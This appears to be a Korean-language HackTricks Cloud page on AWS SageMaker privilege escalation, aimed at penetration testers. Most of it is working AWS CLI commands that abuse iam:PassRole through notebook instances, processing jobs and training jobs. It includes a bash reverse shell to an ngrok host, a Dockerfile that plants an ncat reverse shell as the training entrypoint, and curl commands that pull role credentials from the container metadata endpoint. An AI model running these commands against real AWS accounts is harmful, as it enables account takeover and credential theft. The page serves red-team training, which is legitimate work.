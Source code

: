 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM 역할을 사용하여 연결된 노트북을 생성하기 시작합니다:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
응답에는 새로 생성된 노트북 인스턴스의 ARN을 포함하는 `NotebookInstanceArn` 필드가 포함되어야 합니다. 그런 다음 `create-presigned-notebook-instance-url` API를 사용하여 노트북 인스턴스가 준비되면 액세스하는 데 사용할 수 있는 URL을 생성할 수 있습니다:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
브라우저로 URL에 접속하고 오른쪽 상단의 \`Open JupyterLab\`을 클릭한 다음, “Launcher” 탭으로 스크롤하여 “Other” 섹션 아래의 “Terminal” 버튼을 클릭합니다.

이제 IAM 역할의 메타데이터 자격 증명에 접근할 수 있습니다.

**Potential Impact:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jupyter **노트북이 이미 실행 중인 경우** `sagemaker:ListNotebookInstances`로 목록을 확인할 수 있습니다(또는 다른 방법으로 발견할 수 있습니다). **그에 대한 URL을 생성하고, 접근하여 이전 기술에서 언급한 대로 자격 증명을 탈취할 수 있습니다.**
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**잠재적 영향:** 연결된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateProcessingJob,iam:PassRole`

해당 권한을 가진 공격자는 **sagemaker가 처리 작업을 실행**하도록 할 수 있습니다. 공격자는 **AWS 관리 ECS 계정 인스턴스**에서 실행될 컨테이너의 정의를 지정할 수 있으며, **연결된 IAM 역할의 자격 증명을 훔칠 수 있습니다.**
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

해당 권한을 가진 공격자는 훈련 작업을 생성할 수 있으며, **임의의 컨테이너를 실행**하고 **역할을 부착**할 수 있습니다. 따라서 공격자는 역할의 자격 증명을 훔칠 수 있습니다.

{% hint style="warning" %}
이 시나리오는 이전 것보다 악용하기 더 어렵습니다. 왜냐하면 rev shell 또는 자격 증명을 공격자에게 직접 전송할 Docker 이미지를 생성해야 하기 때문입니다(훈련 작업의 구성에서 시작 명령을 지정할 수 없습니다).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

해당 권한을 가진 공격자는 (잠재적으로) **하이퍼파라미터 훈련 작업**을 생성할 수 있으며, **임의의 컨테이너**를 실행하고 **연결된 역할**을 부여할 수 있습니다.\
&#xNAN;_&#x49; 시간 부족으로 인해 악용하지 않았지만, 이전의 악용과 유사해 보입니다. 악용 세부정보와 함께 PR을 보내주시면 됩니다._

## 참고자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
